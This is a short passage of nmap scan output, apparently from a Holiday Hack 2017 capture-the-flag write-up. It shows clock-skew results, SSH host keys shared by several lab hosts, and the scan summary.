Completed NSE at 02:27, 0.00s elapsed
Post-scan script results:
| clock-skew: 
|   0s: 
|     10.142.0.13 (eaas.northpolechristmastown.com)
|_    10.142.0.8 (hhc17-emi.c.holidayhack2017.internal)
| ssh-hostkey: Possible duplicate hosts
| Key 2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA) used by:
|   10.142.0.2
|   10.142.0.3
|   10.142.0.11
| Key 256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA) used by:
|   10.142.0.2
|   10.142.0.3
|_  10.142.0.11
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 256 IP addresses (7 hosts up) scanned in 86.82 seconds
#+END_SRC
